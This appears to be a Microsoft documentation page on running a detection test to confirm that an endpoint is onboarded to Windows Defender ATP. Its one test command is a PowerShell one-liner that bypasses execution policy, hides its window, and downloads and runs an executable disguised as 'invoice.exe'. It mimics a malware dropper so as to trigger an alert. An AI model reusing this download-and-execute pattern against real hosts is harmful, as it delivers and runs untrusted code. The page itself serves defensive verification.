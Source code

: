 ```yaml
---
title: Run a detection test on a newly onboarded Windows Defender ATP endpoint
description: Run the detection script on a newly onboarded endpoint to verify that it is properly onboarded to the Windows Defender ATP service.
keywords: detection test, detection, powershell, script, verify, onboarding, windows defender advanced threat protection onboarding, clients, servers, endpoint, test
search.product: eADQiWindows 10XVcnh
ms.prod: w10
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
ms.author: macapara
author: mjcaparas
ms.localizationpriority: high
ms.date: 11/06/2017
---
```


#  Run a detection test on a newly onboarded Windows Defender ATP endpoint 

**Applies to:**

- Windows 10 Enterprise
- Windows 10 Education
- Windows 10 Pro
- Windows 10 Pro Education
- Windows Defender Advanced Threat Protection (Windows Defender ATP)


Run the following PowerShell script on a newly onboarded endpoint to verify that it is properly reporting to the Windows Defender ATP service.

1. Open an elevated command-line prompt on the endpoint and run the script:

    a.  Go to **Start** and type **cmd**.

    b.  Right-click **Command Prompt** and select **Run as administrator**.

    ![Window Start menu pointing to Run as administrator](images/run-as-admin.png)

2. At the prompt, copy and run the following command:

    ```
    powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\test-WDATP-test\invoice.exe');Start-Process 'C:\test-WDATP-test\invoice.exe'
    ```

The Command Prompt window will close automatically. If successful, the detection test will be marked as completed and a new alert will appear in the portal for the onboarded endpoint in approximately 10 minutes.

## Related topics
- [Configure client endpoints](configure-endpoints-windows-defender-advanced-threat-protection.md)
- [Configure server endpoints](configure-server-endpoints-windows-defender-advanced-threat-protection.md)